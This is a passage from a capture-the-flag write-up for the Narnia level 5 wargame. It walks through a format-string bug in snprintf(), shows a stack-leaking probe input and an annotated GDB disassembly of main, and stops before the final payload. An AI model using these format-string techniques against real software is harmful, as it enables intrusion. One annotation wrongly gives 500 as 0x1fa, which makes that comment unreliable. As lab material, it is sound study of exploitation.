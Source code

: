 The challenge for this level is to change the integer “i” from 1 to 500, if so we get the shell. The snprintf() appears to be the vulnerable function in this challenge, which would mean that it is a format string vulnerability challenge. Having a look at the reference for the function, http://www.cplusplus.com/reference/cstdio/snprintf/, we can see that no format parameter was included verifying the suspicious of the snprintf(). Another thing to note before continuing on is that the maximum size for our input for this challenge is 64 characters, if we include input of over 64 bytes in size as the argument passed to the binary, we will cause a Segmentation fault error. With this all worked out let’s begin working on a solution.

```
narnia5@melinda:/narnia$ ./narnia5 AAAA%x%x%x%x%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7e5efc380482610ca00001ffffd8f42fffffd73c41414141] (53)
i = 1 (0xffffd72c)
```

So I found that after a 4 byte string followed by 9 (%x)’s I was able to see the 4 bytes on stack, the %x format specifier is used to read bytes off the stack. The next step I took was to execute the binary inside of GDB, to begin with I disassembled the main function and put a breakpoint on the snprintf() and then ran the same input as before.

```
narnia5@melinda:/narnia$ gdb -q ./narnia5
Reading symbols from /games/narnia/narnia5...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     push   %edi
   0x08048448 <+4>:     and    $0xfffffff0,%esp
   0x0804844b <+7>:     sub    $0x70,%esp
   0x0804844e <+10>:    movl   $0x1,0x6c(%esp)
   0x08048456 <+18>:    mov    0xc(%ebp),%eax
   0x08048459 <+21>:    add    $0x4,%eax
   0x0804845c <+24>:    mov    (%eax),%eax
   0x0804845e <+26>:    mov    %eax,0x8(%esp)
   0x08048462 <+30>:    movl   $0x40,0x4(%esp)
   0x0804846a <+38>:    lea    0x2c(%esp),%eax
   0x0804846e <+42>:    mov    %eax,(%esp)
   0x08048471 <+45>:    call   0x8048380 <snprintf@plt>     // Argument input
   0x08048476 <+50>:    movb   $0x0,0x6b(%esp)
   0x0804847b <+55>:    mov    $0x80485f0,%eax
   0x08048480 <+60>:    mov    %eax,(%esp)
   0x08048483 <+63>:    call   0x8048330 <printf@plt>
   0x08048488 <+68>:    mov    0x6c(%esp),%eax
   0x0804848c <+72>:    cmp    $0x1f4,%eax                    // Compare (cmp) instruction to check the %eax register's value against 0x1fa (500).
   0x08048491 <+77>:    jne    0x80484ab <main+103>         // If the values aren't equal then the JNE (Jump Not Equal) instruction is taken.
   0x08048493 <+79>:    movl   $0x8048611,(%esp)
   0x0804849a <+86>:    call   0x8048340 <puts@plt>
   0x0804849f <+91>:    movl   $0x8048616,(%esp)
   0x080484a6 <+98>:    call   0x8048350 <system@plt>
   0x080484ab <+103>:   movl   $0x8048620,(%esp)          // The JNE instruction jumps to this location.
   0x080484b2 <+110>:   call   0x8048340 <puts@plt>
   0x080484b7 <+115>:   lea    0x2c(%esp),%eax
   0x080484bb <+119>:   movl   $0xffffffff,0x1c(%esp)
   0x080484c3 <+127>:   mov    %eax,%edx
   0x080484c5 <+129>:   mov    $0x0,%eax
   0x080484ca <+134>:   mov    0x1c(%esp),%ecx
   0x080484ce <+138>:   mov    %edx,%edi
   0x080484d0 <+140>:   repnz scas %es:(%edi),%al
   0x080484d2 <+142>:   mov    %ecx,%eax
   0x080484d4 <+144>:   not    %eax
```